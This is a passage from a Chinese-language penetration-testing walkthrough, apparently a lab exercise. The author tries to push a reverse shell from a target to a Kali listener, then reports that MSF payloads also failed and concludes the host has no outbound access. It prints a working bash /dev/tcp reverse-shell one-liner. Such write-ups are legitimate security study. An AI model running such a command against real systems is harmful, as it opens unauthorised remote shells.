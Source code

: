 尝试反弹 shell 到 Kali 上再进行提权：

```plain
bash -c 'exec bash -i >& /dev/tcp/192.168.1.128/8888 0>&1'
```

[![](assets/1708094050-9e8e1527bb72969438df56195785ce00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144329-ee8b727e-0ffe-1.png)

Kali 进行监听，但是最后没有反应

[![](assets/1708094050-1e9248d1cd9be7b8d421e3e1d73dde9d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144352-fc38f7c0-0ffe-1.png)  
尝试 MSF 的 tcp、http 均不行，故判断为不出网。

[![](assets/1708094050-a8475406edfb9196a6fae3d25ff7cf45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144409-06499328-0fff-1.png)
